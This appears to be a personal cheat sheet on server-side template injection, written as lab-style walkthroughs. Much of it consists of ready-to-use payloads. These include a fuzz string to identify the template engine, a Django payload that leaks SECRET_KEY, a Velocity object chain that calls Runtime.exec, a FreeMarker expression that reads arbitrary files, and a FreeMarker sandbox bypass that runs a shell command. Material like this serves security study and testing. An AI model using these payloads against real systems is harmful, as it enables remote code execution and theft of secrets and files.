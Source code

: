 # If RCE cannot be achieved -> try other high-severity exploits, stuch as path traversal, to access sensitive data
# EXAMPLE: Server-side template injection with information disclosure via user-supplied objects
- Identify parameters that are reflected (seen) on the response to inject SSTI 
- Fuzz with ${{&#x3C;%[%'"}}%\    'to disclose an error and find Django template engine
- Debug information leak -> {% debug %} -> find the object "settings"
- Read docu about settings and task about secret key
https://docs.djangoproject.com/en/5.1/ref/settings/#std-setting-SECRET_KEY
- Retrieve it using {{settings.SECRET_KEY}}


<strong>'########################################### CREATE A CUSTOM ATTACK
</strong>If template engine executes templates inside a sandbox -> exploitation is difficult or imposible
After identifying the attack surface -> review each function/method for exploitable behavior -> build a custom attack

#### Constructing a custom exploit using an object chain
Identify objects and methods to which you have access. Some of the objects may immediately jump out as interesting. 
By combining own knowledge and info from docu -> put together a shortlist of objects to investigate further 
Docu -> pay particular attention to which methods these objects grant access to, as well as which objects they return
You can discover combinations of objects and methods that you can chain together to gain access to dangerous functions
# Example: Velocity -> access to a ClassTool object called $class. Studying the docu -> chain the $class.inspect() 
# method and $class.type property to obtain references to arbitrary objects. To exploit it and get RCE:
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
# EXAMPLE: Server-side template injection in a sandboxed environment
- Find reflected parameter, try different ${} such as ${7*7}
- When trying ${foo} -> error disclosing FreeMarker template engine
- Researching, I found a way to read files on PayloadsAllTheThings
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
- Another option for sandbox bypass (article has to be changed for the object name, in our case, "product"
&#x3C;#assign classloader=article.class.protectionDomain.classLoader>
&#x3C;#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
&#x3C;#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
&#x3C;#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
